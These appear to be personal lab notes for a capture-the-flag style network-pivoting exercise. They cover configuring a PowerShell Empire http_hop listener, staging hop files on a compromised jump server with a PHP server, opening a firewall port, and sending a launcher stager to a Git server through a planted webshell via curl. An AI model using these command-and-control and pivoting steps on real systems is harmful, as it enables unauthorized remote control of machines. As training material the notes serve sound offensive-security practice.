 Time to put this all into practice!

You should already have a `http_hop` listener started in either Empire or Starkiller from the last task. If you don't, take this opportunity to start one before continuing.

With the listener started there are two things we must do before we can get an agent back from the Git Server:-

- We must generate an appropriate stager for the target
- We must put the `http_hop` files into position on .200, and start a webserver to serve the files on the port we selected during the listener creation. This server must be able to execute PHP, so a PHP Debug server is ideal.


---

Let's start with generating a stager. For this we will use the `multi/launcher` stager. We already covered how to create stagers back in task 26, so you should be able to do this relatively unguided. The only option needing to be set here is the "Listener" option, which needs set to the name of the `http_hop` listener we created in the previous task:

## Empire client

Start Empire Client:

```
$ powershell-empire client
```


![[Git Server-20250103140519820.webp]]

## Starkiller

![[Git Server-20250103140607340.webp]]

If using the Empire CLI, you will be presented with a payload to copy and paste into the target's command line:

![[Git Server-20250103140856420.webp]]

If using Starkiller you can copy the payload to your clipboard by clicking on the copy button of the Actions menu for the stager in the main Stagers menu:

![[Git Server-20250103140929490.webp]]

Whichever method you chose, save the provided command somewhere and _do not_ execute it yet. We will need it once we have set up the hop files on the jumpserver.


---
## Jumpserver set up

Now let's get that jumpserver set up!

1. First of all, in the /tmp directory of the compromised webserver, create and enter a directory called `hop-USERNAME`. e.g.:

	![[Git Server-20250103141203892.webp]]

2. Transfer the contents from the `/tmp/http_hop` (or whatever you called it) directory across to this directory on the target server. A good way to do this is by zipping up the contents of the directory (`cd /tmp/http_hop && zip -r hop.zip *`), then transferring the zipfile across using one of the methods previously shown. For example, doing this with a Python HTTP server :
	![[Git Server-20250103141930263.webp]]

3. We can then unzip the zipfile on the webserver (i.e. `unzip hop.zip`):

	 ![[Git Server-20250103142317960.webp]]

> [!Note]
The output of `ls` must match up with the screenshot -- i.e. there should be a `news.php` file in your current directory, with `admin/` and_ `login/` as subdirectories

## Open the port in the firewall

Create a Firewall rule to allow connections through.
		root@prod-serv ~# `firewall-cmd --zone=public --add-port 47000/tcp`

## Serving the files

We now need to actually serve the files on the port we chose when generating the http_hop listener (task 28). Fortunately we already know that this server has PHP installed as it serves as the backend to the main website. This means that we can use the PHP development webserver to serve our files! The syntax for this is as follows:  
`php -S 0.0.0.0:PORT &>/dev/null &`  

e.g:

![[Git Server-20250103142653235.webp]]

As shown in the screenshot, the webserver is now listening in the background on the chosen port 47000.

> [!Note]
> Remember to open up the port in the firewall if you haven't already!

This is a handy trick for when we need to serve PHP files, as our standard Python HTTP webserver is not capable of interpreting the PHP language and so cannot execute the scripts.

We now have everything we need to get this show on the road!


---

# Your job

![[Command & Control Empire Diagram.svg]]


The way this system works is:
- There is a **command server**, usually your Attacking Machine.
- This command server has a listener or number of listeners on it, waiting for connections from your agents. 
- These listeners come in various options but the most used ones are HTTP and *HTTP-Hop* mainly because they can blend into normal day-to-day traffic easier.

**HTTP-Hop**
This is a special listener because it allows you to set up a hop station should you be pivoting around a network. What this essentially does is allows us to take an entry point in the network and make use of it as a “jump” server between our command server and a compromised device that doesn’t have internet connectivity for example:

**Command Server <—–> Web Server <—-> Compromised Machine**

The next part is the **stager**.
- This is a script/command that creates our agent. 
- This comes in a number of forms but *Bash* and *Powershell* are the ones introduced in the Wreath room. 
- Once these stagers are run on your compromised machine they will create an **agent** connection back to your control server. 
- Once connected you will be able to run commands as if you were on the agent through the command server.

| <center>Actions</center>                                                          | <center>Machine</center> | <center>Commands</center>                                                                                             |
| --------------------------------------------------------------------------------- | ------------------------ | --------------------------------------------------------------------------------------------------------------------- |
| Start Empire Server                                                               | Attacking Machine        | `powershell-empire server`                                                                                            |
| Start Empire CLI                                                                  | Attacking Machine        | `powershell-empire client`                                                                                            |
| Setup HTTP Listener                                                               | Empire CLI               | `uselistener http`                                                                                                    |
| Create a listener                                                                 | Empire CLI               | [[Empire - Listeners]]                                                                                                |
| Setup Stager                                                                      | Empire CLI               | `usestager multi_bash`<br>`set Listener CLIHTTP`<br>`execute`                                                         |
| Execute stager on target                                                          | Jump box .200            | `echo "import sys,base64,warnings...`                                                                                 |
| Open firewall port                                                                | Jump box .200            | `firewall-cmd --zone=public --add-port 47000/tcp`                                                                     |
| Creating hop jump server                                                          | Empire CLI               | `uselistener http_hop`<br>`set Host 10.200.X.200` <br>`set Port 47000`<br>`set RedirectListener CLIHTTP`<br>`execute` |
| Zip and transfer files `/tmp/http_hop` to jump box target                         | Attacking Machine        | `cd /tmp/http_hop && zip -r hop.zip`<br>`sudo python3 -m http.server 80`                                              |
| Download on target                                                                | Jump box .200            | `curl 10.50.X.X/hop.zip -o hop.zip unzip hop.zip`                                                                     |
| Create http_hop stager                                                            | Empire CLI               | `usestager multi_launcher`<br>`set Listener http_hop` `execute`                                                       |
| Setup a PHP Server to host http_hop files                                         | Jump box .200            | `php -S 0.0.0.0:47000`                                                                                                |
| Connect to `git-server` on `.150` and execute `usestager/multi_launcher` payload. | Attacking Machine        | `curl -X POST http://10.200.84.150/web/exploit-KAIROS.php -d "a=<usestager/multi_launcher payload"`<br>               |
|                                                                                   |                          |                                                                                                                       |
After completing the given steps, we have an agent from the Git Server in Starkiller.

![[Git Server-20250114152251549.webp]]

**Next step:** [[Empire - Modules]]

